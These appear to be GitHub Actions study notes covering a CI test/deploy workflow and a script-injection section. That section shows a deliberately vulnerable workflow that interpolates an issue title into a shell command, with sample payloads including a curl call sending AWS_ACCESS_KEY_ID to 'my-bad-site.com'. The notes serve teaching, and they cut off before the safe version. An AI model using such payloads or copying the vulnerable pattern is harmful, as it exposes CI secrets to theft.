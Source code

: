 ```yml
      - name: Get Code
        uses: actions/checkout@v3
      - name: Cache dependencies
        uses: actions/cache@v3
        with:
          path: ~/.npm
          key: ${{ env.CACHE_KEY }}-${{ hashFiles('**/package-lock.json') }}
      - name: Install dependencies
        run: npm ci
      - name: Run server
        run: npm start & npx wait-on http://127.0.0.1:$PORT # requires MongoDB Atlas to accept requests from anywhere!
      - name: Run tests
        run: npm test
      - name: Output information
        run: |
          echo "MONGODB_USERNAME: $MONGODB_USERNAME"
  deploy:
    needs: test
    runs-on: ubuntu-latest
    steps:
      - name: Output information
        env:
          PORT: 3000
        run: |
          echo "MONGODB_DB_NAME: $MONGODB_DB_NAME"
          echo "MONGODB_USERNAME: $MONGODB_USERNAME"
          echo "${{ env.PORT }}"
```

## Permissions & Security

### Script Injection

- a value, set outside a `workflow`, is used in a `workflow`
- example: issue title used in a `workflow` shell command
- `workflow` or `command` behavior could be changed

```yml
# Example
name: Label Issues (Script Injection Example)
on:
  issues:
    types:
      - opened
jobs:
  assign-label:
    runs-on: ubuntu-latest
    steps:
      - name: Assign label
        # code is risky: is open to script injection
        # e.g. if issue is opend, you can inject any commands in title
        # a"; echo Got your secrets"
        # a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID"
        run: |
          issue_title="${{ github.event.issue.title }}"
          if [[ "$issue_title" == *"bug"* ]]; then
          echo "Issue is about a bug!"
          else
          echo "Issue is not about a bug"
          fi
  # non risky option
  assign-label:
```